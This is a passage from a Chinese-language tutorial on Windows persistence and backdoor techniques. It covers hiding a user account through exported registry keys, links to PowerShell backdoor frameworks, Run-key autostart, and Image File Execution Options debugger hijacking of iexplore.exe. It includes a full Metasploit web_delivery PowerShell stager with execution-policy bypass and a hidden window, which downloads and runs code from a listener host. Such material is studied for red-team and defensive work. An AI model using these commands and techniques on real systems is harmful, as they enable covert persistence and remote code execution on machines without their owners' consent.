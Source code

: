 [![](https://p3.ssl.qhimg.com/t0125fadd704d547933.png)](https://p3.ssl.qhimg.com/t0125fadd704d547933.png)

删除匿名用户，双击导出的注册表文件，用先前导出的注册表键值对注册表进行修改。则可以重新还原之前的匿名用户，但是除了在注册表里面有用户记录，其他地方都不存在用户的信息。`net user`或计算机管理里本地用户和用户组是看不到用户信息的，具有很好的隐蔽性质。

```
net user admin$ /del
```

### <a class="reference-link" name="PowerShell%E5%90%8E%E9%97%A8"></a>PowerShell后门

<a class="reference-link" name="Empire%E6%A1%86%E6%9E%B6"></a>**Empire框架**

> [https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)

<a class="reference-link" name="Schtasks-Backdoor"></a>**Schtasks-Backdoor**

> [https://github.com/re4lity/Schtasks-Backdoor](https://github.com/re4lity/Schtasks-Backdoor)

<a class="reference-link" name="msf"></a>**msf**

```
use exploit/multi/script/web_delivery

- 设置好参数后的powershell例子：
powershell.exe  -ExecutionPolicy Bypass -nop -w hidden -c $V=new-object net.webclient;$V.proxy=[Net.WebRequest]::GetSystemWebProxy();$V.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $V.downloadstring('http://192.168.80.155:8888/');
```

### <a class="reference-link" name="%E6%B3%A8%E5%86%8C%E8%A1%A8%E5%BC%80%E6%9C%BA%E5%90%AF%E5%8A%A8"></a>注册表开机启动

在如下的注册表目录下注入键值`HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun`，可以实现开机自启动。以windows defender为例:

[![](https://p3.ssl.qhimg.com/t0179bb2dd1964c04b6.png)](https://p3.ssl.qhimg.com/t0179bb2dd1964c04b6.png)

### <a class="reference-link" name="%E6%98%A0%E5%83%8F%E5%8A%AB%E6%8C%81"></a>映像劫持

> 细节参考：[https://www.anquanke.com/post/id/151425](https://www.anquanke.com/post/id/151425)

涉及到的注册表项为IFEO（Image File Execution Options），默认是只有管理员和local system有权读写修改。

```
“HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindows NTCurrentVersionImage File Execution Options”
```

大致的原理如下：当我们按照常理运行属于IFEO列表的文件的时候（即可执行文件名在上述的注册表项下，出于简化原因，IFEO使用忽略路径的方式来匹配它所要控制的程序文件名，所以程序无论放在哪个路径，只要名字没有变化，它就可以正常运行。）会执行相关的选项参数，这里我们主要利用的参数是`debugger`,通过该参数我们可以实现偷梁换柱。下面以修改IE启动程序为例，实现运行IE程序但是启动的却是计算器。

```
1. 找到注册表“HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindows NTCurrentVersionImage File Execution Options”目录下的iexplore.exe

2. 添加一个debugger字符串键值，并且赋值为calc.exe的执行路径，“C:Windowssystem32calc.exe”

3. 运行 iexplore.exe,bomb!!!
```
